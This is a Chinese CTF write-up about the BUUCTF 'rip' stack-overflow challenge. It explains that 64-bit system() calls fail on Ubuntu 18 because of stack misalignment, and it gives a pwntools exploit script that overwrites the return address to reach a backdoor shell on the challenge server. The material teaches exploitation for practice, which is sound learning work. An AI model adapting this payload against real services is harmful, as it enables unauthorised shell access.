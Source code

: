 ```yaml
---
title: 「Pwn」Ubuntu18 中 64位 ELF 在调用 system 时候可能出现的问题
tags: ['BUUCTF', 'Pwn', 'Problems']
categories: ['CTF', 'cheatsheet']
authors: [nova]

---
```


# Ubuntu18中64位ELF在调用system时候可能出现的问题

这几天配好了Ubuntu18，测试的时候出现了一个问题。

研究了好久才解决，记录一下。

[题目\__Buuoj__RIP](https://buuoj.cn/challenges#rip)

<!--truncate-->

### 问题

这题是最基础的一个栈溢出题。有后门函数直接`system("/bin/sh");`，什么保护都没开，直接把返回地址覆盖按理来说就可以了。

本地测试的时候也确实是这样的，但是远程却出现了问题。

于是我拿自己的Ubuntu18测试了一下，发现同样出现了错误。

一通搜索之后才发现，ubuntu18及以上的libc中，64位ELF程序调用system函数时候需要考虑堆栈平衡

### 解决方法

改变Payload的长度或者进行栈转移即可



主要思路就是改变栈的地址。

这里贴一下exp

```python
from pwn import *
context(log_level='debug', arch='amd64', os='linux')

# sh = process("./pwn1")
sh = remote("node4.buuoj.cn", 29726)

# sh.recvuntil('please input\n')

backdoor_addr = 0x0401186
# payload = b'a'*(0xf+8) + p64(backdoor_addr) # 正常思考，但是没有对齐所以会错误
# payload = b'a'*0xf + p64(backdoor_addr) # exp1, 但是稍微有点没看明白为什么这样可以:<
# payload = b'a'*(0xf+8) + p64(backdoor_addr) + p64(backdoor_addr - 1) # exp 2, 这里的backdoor_addr - 1对应了一个retn，换成其他的也可以，也是为了堆栈平衡
payload = b'a'*(0xf+8) + p64(backdoor_addr + 1) # exp 3, +1 让call_system函数中检查对齐的那个地址对齐0x10
"""
不一定是+1,最多16次肯定能对齐,还不行就栈转移吧www
"""
sh.sendline(payload)
sh.interactive()
```

### 深入

在这里我准备深入研究一下此时的堆栈，也算是gdb的初探门径

> 寄，Ubuntu18的gdb好像炸了。等修好了再补充:<



## 参考博客

[在一些64位的glibc的payload调用system函数失败问题](http://blog.eonew.cn/archives/958)

[ret2text涉及到的堆栈平衡问题](https://blog.csdn.net/qq_41560595/article/details/112161243)

[升级gcc7.3之后MOVAPS指令导致的程序coredump解决过程](https://www.pianshen.com/article/8326860581/)